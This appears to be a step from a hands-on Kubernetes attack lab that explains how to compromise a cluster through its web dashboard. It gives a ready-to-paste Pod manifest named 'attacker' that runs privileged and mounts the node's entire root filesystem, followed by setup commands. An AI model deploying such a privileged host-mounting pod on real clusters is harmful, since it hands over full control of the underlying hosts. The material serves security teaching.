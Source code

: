 ## Inside dashboard

Now as shown in the video lets compormise the cluster from the dashboard
1. First Navigate yourself to the api pod's exec shell as shown in video 
2. Now lets add our malicious file into the cluster, press ADD sign button in the navbar
3. In the create from input copy-paste this code
```
apiVersion: v1
kind: Pod
metadata:
  name: attacker
  labels:
    app: attacker
spec:
  containers:
    - name: attacker
      image: hackingkubernetes/api:latest
      imagePullPolicy: IfNotPresent
      volumeMounts:
        - name: hostsvolume
          mountPath: /attacker
      ports:
        - containerPort: 80
      securityContext:
        privileged: true
  volumes:
    - name: hostsvolume
      hostPath:
        path: /
```{{copy}}
4. Press Upload


## Configure our webapp

After the above code executed run this command to run our webapp and API server
`bash pods.sh`{{execute HOST1}}

Check if pods are created
`kubectl get pods`{{execute HOST1}}